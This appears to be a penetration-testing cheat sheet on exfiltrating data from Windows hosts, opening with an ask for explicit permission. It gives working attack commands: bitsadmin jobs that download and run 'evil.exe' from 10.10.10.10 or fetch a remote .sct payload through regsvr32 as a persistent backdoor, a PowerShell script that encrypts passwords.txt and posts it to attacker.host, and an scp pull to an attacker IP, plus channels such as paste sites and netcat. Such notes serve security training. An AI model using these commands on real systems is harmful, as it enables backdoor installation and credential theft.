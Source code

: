 # Data Exfiltration

{% hint style="success" %}
Hack Responsibly.

Always ensure you have **explicit** permission to access any computer system **before** using any of the techniques contained in these documents. You accept full responsibility for your actions by applying any knowledge gained here.‌
{% endhint %}

{% hint style="danger" %}
Not much here yet...please feel free to contribute at [my GitHub page](https://github.com/zweilosec/Infosec-Notes).
{% endhint %}

### BITS Jobs

{% tabs %}
{% tab title="PowerShell" %}
First, you must import the BitsTransfer PowerShell Module with `Import-Module BitsTransfer`.  After you import the BitsTransfer module, the following cmdlets are available:

* **`Add-BitsFile`** Adds files to a BITS transfer
* **`Complete-BitsTransfer`** Completes a BITS transfer
* **`Get-BitsTransfer`** Gets a BITS transfer
* **`Remove-BitsTransfer`** Stops a BITS transfer
* **`Resume-BitsTransfer`** Resumes a suspended BITS transfer
* **`Set-BitsTransfer`** Configures a BITS transfer job
* **`Start-BitsTransfer`** Creates and starts a BITS transfer job
* **`Suspend-BitsTransfer`** Pauses a BITS transfer job

For example, the following Windows PowerShell command begins a BITS transfer from the local computer to a computer named CLIENT:

```powershell
Start-BitsTransfer -Source file.txt -Destination \\client\share -Priority normal
```

When running Windows PowerShell interactively, the PowerShell window displays the progress of the transfer. The following command uses an abbreviated notation to download a file from a Web site to the local computer:

```powershell
Start-BitsTransfer https://server/dir/myfile.txt C:\docs\myfile.txt
```

Manage BITS with PowerShell - Microsoft:

* [https://learn.microsoft.com/en-us/previous-versions/technet-magazine/ff382721(v=msdn.10)](https://learn.microsoft.com/en-us/previous-versions/technet-magazine/ff382721\(v=msdn.10\))
{% endtab %}

{% tab title="cmd.exe" %}
```
bitsadmin /create backdoor
bitsadmin /addfile backdoor "http://10.10.10.10/evil.exe"  "C:\tmp\evil.exe"

# v1
bitsadmin /SetNotifyCmdLine backdoor C:\tmp\evil.exe NUL
bitsadmin /SetMinRetryDelay "backdoor" 60
bitsadmin /resume backdoor

# v2 - exploit/multi/script/web_delivery
bitsadmin /SetNotifyCmdLine backdoor regsvr32.exe "/s /n /u /i:http://10.10.10.10:8080/FHXSd9.sct scrobj.dll"
bitsadmin /resume backdoor
```
{% endtab %}
{% endtabs %}

### Using FTP

See [this section](privilege-escalation.md#using-ftp) under Privilege Escalation

### Using SMB

{% tabs %}
{% tab title="PowerShell" %}
#### Create an SMB share <a href="#example-1-create-an-smb-share" id="example-1-create-an-smb-share"></a>

```powershell
New-SmbShare -Name "Exfil" -Path "C:\temp" -FullAccess "$Domain\Administrator"
```

This command creates an SMB share named "Exfil" and grants Full Access permissions to "$Domain\\$UserName".

For more about the New-SmbShare PowerShell cmdlet:

* [https://learn.microsoft.com/en-us/powershell/module/smbshare/new-smbshare?view=windowsserver2022-ps](https://learn.microsoft.com/en-us/powershell/module/smbshare/new-smbshare?view=windowsserver2022-ps)
{% endtab %}

{% tab title="cmd.exe" %}

{% endtab %}
{% endtabs %}

See [this section](privilege-escalation.md#smb) under Privilege Escalation for more

### HTTP POST with PowerShell

If you set up a web server to accept post requests, you can either AES encrypt or base64 encode your target data and simply send an HTTP request to the server with the data.

Example with AES encrypted payload:

```
$file = Get-Content C:\Users\Target\Desktop\passwords.txt
$key = (New-Object System.Text.ASCIIEncoding).GetBytes("54b8617eca0e54c7d3c8e6732c6b687a")
$securestring = New-Object System.Security.SecureString
foreach ($char in $file.toCharArray()) {
      $secureString.AppendChar($char)
}
$encryptedData = ConvertFrom-SecureString -SecureString $secureString -Key $key

Invoke-WebRequest -Uri http://www.attacker.host/exfil -Method POST -Body $encryptedData
```

To decode the data on the other side simply reverse the process:

```
$key = (New-Object System.Text.ASCIIEncoding).GetBytes("54b8617eca0e54c7d3c8e6732c6b687a")
$encrypted = "$encrypted_payload"
echo $encrypted | ConvertTo-SecureString -key $key | ForEach-Object {[Runtime.InteropServices.Marshal]::PtrToStringAuto([Runtime.InteropServices.Marshal]::SecureStringToBSTR($_))}
```

Simply substitute the `$encrypted_payload` variable with the actual content that was sent in the body of the HTTP request, and you will have your exfiltrated file!

### Covert to and from Base64 with PowerShell

You can always convert your data or files to be exfiltrated to Base64 text and simply copy and paste this in your terminal (or use bash/PowerShell magic to convert your target data back).  See [this section](privilege-escalation.md#covert-to-and-from-base64-with-powershell) under Privilege Escalation for more information on this technique.

### Send an email with PowerShell

#### PowerShell `Send-MailMessage` cmdlet

```powershell
Send-MailMessage -From 'User01 <user01@fabrikam.com>' -To 'User02 <user02@fabrikam.com>', 'User03 <user03@fabrikam.com>' -Subject 'Sending the Attachment' -Body "Forgot to send the attachment. Sending now." -Attachments .\data.csv -Priority High -DeliveryNotificationOption OnSuccess, OnFailure -SmtpServer 'smtp.fabrikam.com'
```

* The **`From`** parameter to specify the message's sender.&#x20;
* The **`To`** parameter specifies the message's recipients.&#x20;
* The **Subject** parameter describes the content of the message.&#x20;
* The **Body** parameter is the content of the message.
* The **`Attachments`** parameter specifies the file in the current directory that is attached to the email message.&#x20;
* The **`Priority`** parameter sets the message to **High** priority.&#x20;
* The **`-DeliveryNotificationOption`** parameter specifies two values, **`OnSuccess`** and **`OnFailure`**. The sender will receive email notifications to confirm the success or failure of the message delivery.&#x20;
* The **`SmtpServer`** parameter sets the SMTP server to **smtp.fabrikam.com**.

According to Microsoft this cmdlet has been deprecated with no replacement.  However, if it is present on the machine it should still work!

* [https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/send-mailmessage?view=powershell-7.2](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/send-mailmessage?view=powershell-7.2)

## Misc

### Web services

* Anon paste sites like Pastebin offer an easy exfiltration channel.&#x20;
* GitHub and other code versioning sites are often permitted in many technical organizations.
* Many common file-storage sites like OneDrive, Dropbox, Google Drive, and Box are often permitted, especially if an organization outsources to shared cloud services.

### File-transfer Programs

In addition to the methods listed above, the following programs can be used to transfer files, provided you have copied the program to the victim machine, and it is not blocked:

* netcat
* socat
* tftp

### SCP

The attacker has to have SSHd running.

```bash
scp <username>@<Attacker_IP>:<directory>/<filename> 
```

### Airgap Exfiltration

* [https://thesecmaster.com/14-popular-air-gapped-data-exfiltration-techniques-used-to-steal-the-data/](https://thesecmaster.com/14-popular-air-gapped-data-exfiltration-techniques-used-to-steal-the-data/)

## References

* [https://azeria-labs.com/data-exfiltration/](https://azeria-labs.com/data-exfiltration/)
* [https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/](https://www.pentestpartners.com/security-blog/data-exfiltration-techniques/)

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!
